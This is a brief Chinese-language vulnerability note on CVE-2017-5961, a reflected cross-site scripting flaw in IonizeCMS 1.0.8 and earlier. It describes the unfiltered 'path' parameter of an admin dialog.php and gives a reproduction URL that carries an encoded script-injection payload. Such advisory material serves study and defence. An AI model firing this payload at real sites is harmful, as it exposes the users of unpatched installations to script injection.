 # CVE-2017-5961 IonizeCMS xss

### 一、漏洞简介

该漏洞源于在‘path’HTTP GET参数传递到`‘ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php’`URL时，程序没有充分地过滤此参数中用户提交的数据。攻击者可利用该漏洞在浏览器中执行任意的HTML和脚本代码。

### 二、漏洞影响

<=Ionize 1.0.8

### 三、复现过程


```
http://url/testcmsofgithub/ionize-master/ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php?path=%22%3E%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3Cscript%20%22
```
